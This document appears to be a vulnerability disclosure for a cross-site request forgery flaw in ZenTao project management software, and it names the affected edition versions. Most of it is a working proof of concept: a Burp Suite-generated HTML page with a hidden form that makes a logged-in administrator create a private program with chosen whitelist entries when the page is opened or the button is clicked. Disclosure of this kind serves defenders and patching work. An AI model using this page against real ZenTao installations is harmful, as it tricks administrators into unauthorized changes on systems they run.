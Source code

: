 # Cross-site Request Forgery Attack (CSRF) in ZenTao

Description: ZenTao project management software is an open source project management software. Its latest version (Enterprise Edition<=5.0.rc1, Professional Edition<=10.0.rc1, Open Source Edition<=15.0) has cross-site request forgery attacks. Users can construct scenarios to entice administrators to perform background operations without their knowledge.

## 1.poc

poc：
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://ip:8002/index.php?m=program&f=create" method="POST">
      <input type="hidden" name="parent" value="0" />
      <input type="hidden" name="name" value="1" />
      <input type="hidden" name="PM" value="admin" />
      <input type="hidden" name="budget" value="1" />
      <input type="hidden" name="budgetUnit" value="CNY" />
      <input type="hidden" name="begin" value="2021&#45;04&#45;21" />
      <input type="hidden" name="end" value="" />
      <input type="hidden" name="status" value="wait" />
      <input type="hidden" name="desc" value="1" />
      <input type="hidden" name="acl" value="private" />
      <input type="hidden" name="whitelist&#91;&#93;" value="" />
      <input type="hidden" name="whitelist&#91;&#93;" value="admin" />
      <input type="hidden" name="uid" value="607feb9b12a29" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```
![img](2.png)
The administrator can trigger the corresponding operation after clicking
